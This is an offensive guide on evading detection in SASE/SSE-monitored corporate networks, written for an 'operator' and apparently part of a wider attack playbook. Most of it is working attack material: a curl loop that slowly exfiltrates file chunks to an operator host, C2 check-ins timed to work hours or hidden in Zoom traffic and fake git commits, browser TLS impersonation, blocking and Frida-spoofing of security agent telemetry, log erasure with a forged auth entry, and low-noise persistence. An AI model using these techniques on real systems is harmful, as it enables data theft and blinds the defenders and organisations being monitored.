

# SASE / SSE Detection Avoidance Guide

## Introduction

Detection avoidance is the practice of operating within an SSE-monitored environment without triggering alerts. This is distinct from bypass — bypass defeats the policy; detection avoidance defeats the *visibility* of the operator's actions.

This guide covers the SSE's detection surface (what it logs), the SOC's investigation workflow (how alerts are triaged), and concrete techniques for staying under the noise floor.

## Objectives

By the end of this guide the operator should be able to:

- Identify what the SSE logs and how the SOC consumes those logs.
- Time operations to coincide with legitimate user activity.
- Pace exfiltration to stay below volume thresholds.
- Use TLS fingerprints that blend with legitimate clients.
- Suppress or spoof agent telemetry.

## SSE Detection Surface

Every SSE produces a different log catalogue. The common categories:

| Log source | Contains | Retention |
|------------|----------|-----------|
| Web logs | URL, category, action, user, IP | 30-90 days |
| DNS logs | Query, response, action, user | 30-90 days |
| Firewall logs | 5-tuple, byte count, action | 30-90 days |
| ZTNA logs | App, user, posture, action | 30-90 days |
| CASB logs | SaaS, action, user, data-classification | 90-365 days |
| Threat intel logs | IOC matches, verdict | 90+ days |
| Admin / audit logs | Admin actions | 1+ year |
| Agent telemetry | Posture, agent health | 30-90 days |

### 2.1 SIEM ingestion

Most SOCs ingest SSE logs into Splunk, Sentinel, or Chronicle. The typical rule pattern:

```spl
index=sse sourcetype=zscaler:web action=blocked
| stats count by user, category
| where count > 10
```

Rules fire on:
- Repeated blocks (anomalous category access)
- Volume anomalies (>10 MB upload in 5 min)
- New / aged domains (reputation events)
- Posture changes (non-compliant → compliant within 1 min)
- Geo anomalies (login from new location)

## Pacing Strategy

The most effective detection avoidance is pacing. Match the volume of legitimate user activity.

### 3.1 Exfiltration pacing

```bash
# Calculate user's average daily upload
# Typical knowledge worker: 50 MB/day upload to SaaS
# Atypical: 5 GB upload to a single domain in 1 hour

# Pace exfiltration at 10% of typical daily volume
# 50 MB * 10% = 5 MB/day exfil limit

# Spread across the day
for chunk in chunks/*; do
  curl -X PUT --data-binary @$chunk https://operator.example.com/upload
  sleep 3600  # 1 chunk per hour
done
```

### 3.2 Login timing

```bash
# Match user's working hours
# Pull from Entra ID sign-in logs (if SOC has access)
# Typical workday: 9am-5pm local

# Schedule C2 check-ins during work hours only
# crontab: */30 9-17 * * 1-5 /opt/operator/checkin.sh
```

### 3.3 Volume concealment

```bash
# Piggyback on legitimate video calls
# 1080p Zoom call: ~3 Mbps upstream
# Hidden C2 over same UDP stream: 100 Kbps (3% of Zoom)
# Indistinguishable in volume

# Or use legitimate-looking HTTPS to known SaaS
# GitHub commits: 50 KB each, several per hour
# Wrap C2 data in fake git commits
```

## TLS Fingerprint Blending

SSEs increasingly classify traffic by TLS fingerprint (JA3 / JA4). Operator's tooling must match legitimate clients.

### 4.1 Identify expected fingerprint

```bash
# Capture legitimate browser ClientHello
sudo tcpdump -i en0 -w browser.pcap 'tcp port 443 and host www.example.com'
# Open browser, navigate to www.example.com

# Extract JA3 from pcap
python3 -m ja3 -j browser.pcap | jq '.[] | select(.destination_port==4443)' | head
```

### 4.2 Match with curl-impersonate

```bash
# Mimic Chrome 124
curl_chrome124 https://op.example.com/

# Mimic Firefox 124
curl_firefox124 https://op.example.com/
```

### 4.3 Validate byte-for-byte

```bash
# Compare operator's ClientHello to legitimate browser's
sudo tcpdump -i lo -w operator.pcap
curl_chrome124 https://op.example.com/

# Diff the ClientHello bytes
tshark -r browser.pcap -Y "tls.handshake.type==1" -T fields -e tls.handshake.type \
  | xxd > /tmp/browser-hex.txt
tshark -r operator.pcap -Y "tls.handshake.type==1" -T fields -e tls.handshake.type \
  | xxd > /tmp/operator-hex.txt
diff /tmp/browser-hex.txt /tmp/operator-hex.txt
```

The two ClientHellos should be byte-identical except for random fields.

## Agent Telemetry Suppression

SSE client agents report telemetry every 1-5 minutes. Stopping telemetry abruptly triggers "agent offline" alerts. Suppression must be graceful.

### 5.1 Endpoint block

```bash
# Add telemetry endpoints to /etc/hosts (macOS/Linux)
sudo tee -a /etc/hosts <<EOF
127.0.0.1  logs.cloudflareclient.com
127.0.0.1  device-attestation.cloudflareclient.com
127.0.0.1  feedback.zscaler.net
127.0.0.1  pac.zscaler.net
EOF

# Note: blocking pac.zscaler.net may break PAC fetch
# Lab test before deploying
```

### 5.2 Selective block (recommended)

Block telemetry only, leave posture intact:

```bash
# macOS pf rule: block telemetry endpoints only
echo "block out quick on en0 proto tcp from any to 162.159.92.1/32 port 443" \
  | sudo tee /etc/pf.anchors/operator

sudo pfctl -e -f /etc/pf.anchors/operator
```

### 5.3 Telemetry spoofing via Frida

```javascript
// Hook the telemetry send function to report crafted values
Interceptor.attach(Module.findExportByName(null, 'send_telemetry'), {
  onEnter: function(args) {
    // Replace payload with "all clear" report
    var fakePayload = Memory.allocUtf8String('{"status":"healthy","posture":"compliant"}');
    args[0] = fakePayload;
  }
});
```

## Log Hygiene

Once on the endpoint, the operator can clean up local logs that would reveal activity.

### 6.1 macOS log cleanup

```bash
# Clear unified log (requires SIP-disabled lab)
sudo log erase --all

# Clear audit logs
sudo rm /var/audit/*

# Clear specific log
sudo truncate -s 0 /var/log/system.log
```

### 6.2 Linux log cleanup

```bash
# Clear syslog
sudo truncate -s 0 /var/log/syslog

# Clear auth log (leave a marker to look natural)
sudo truncate -s 0 /var/log/auth.log
echo "$(date '+%b %d %H:%M:%S') host sshd[1234]: Accepted publickey for user" \
  | sudo tee -a /var/log/auth.log

# Clear journald
sudo journalctl --rotate
sudo journalctl --vacuum-time=1s
```

### 6.3 Windows event log

```powershell
# Clear Security log (leaves single clearing event)
wevtutil cl Security

# Clear System log
wevtutil cl System

# Clear PowerShell history
Remove-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU" -Recurse
Clear-History
Remove-Item (Get-PSReadlineOption).HistorySavePath
```

## Anti-Frida Detection

Modern SSE client agents may detect Frida. Operators must evade detection.

### 7.1 Frida server naming

```bash
# Default Frida server name: frida-server
# Detectable by /proc/<pid>/comm scan
mv frida-server unrelated-name
./unrelated-name
```

### 7.2 Frida TLS detection

```bash
# Frida 15+ communicates via TLS on localhost
# Agents may check for unexpected localhost TLS
# Use frida-gadget embedded in app instead

# Embed gadget
cp frida-gadget.dylib /Applications/Cloudflare\ WARP.app/Contents/Frameworks/
# Edit Info.plist to load the gadget
```

### 7.3 Inline hooks

```bash
# Use darling-dtrace or dtrace on macOS instead of Frida (less detectable)
sudo dtrace -n 'pid$target::posture_check:entry { @[ustack()] = count(); }' \
  -p $(pgrep ZscalerClientConnector)
```

## Persistence Detection Avoidance

Persistence mechanisms are commonly detected. Choose low-noise options.

### 8.1 Preferred persistence

- LaunchAgent in user's `~/Library/LaunchAgents/` (not system-wide)
- Cron job as the user (`crontab -e` as user, not root)
- Browser extension (Chrome, Firefox) — no admin needed
- OAuth refresh token (token persistence, no binary)

### 8.2 Avoid

- `/etc/cron.d/`, `/etc/crontab` (root, monitored)
- LaunchDaemons in `/Library/LaunchDaemons/` (root, monitored)
- `/etc/rc.local`, systemd unit (root, monitored)
- Registry Run keys (monitored by EDR)

## SOC Triage Patterns

Understand how the SOC triages alerts:



Operator strategies:

- Stay below "Medium" threshold (volume, frequency)
- Time operations outside the SOC's hours of full staffing
- Use techniques that produce only "Low" severity alerts

## Practice / Lab Walkthrough

Authorized-lab exercise:

1. Enable SSE logging in lab tenant.
2. Establish baseline: typical 1-hour traffic from a test user.
3. Test volume threshold: at what upload volume does the alert fire?
4. Test timing threshold: how many logins in 5 min trigger geo anomaly?
5. Test TLS fingerprint: send `curl` and Chrome alternately; observe JA3 alerts.

## References & Resources

- MITRE ATT&CK Defense Evasion tactic (TA0005)
- Sigma rules repository — `github.com/SigmaHQ/sigma`
- Splunk Security Essentials — `github.com/splunk/securityessentials`
- Sysmon modular — `github.com/SwiftOnSecurity/sysmon-config`

---

*End of guide. For full methodology see `sase-sse-attack-playbook.md`.*
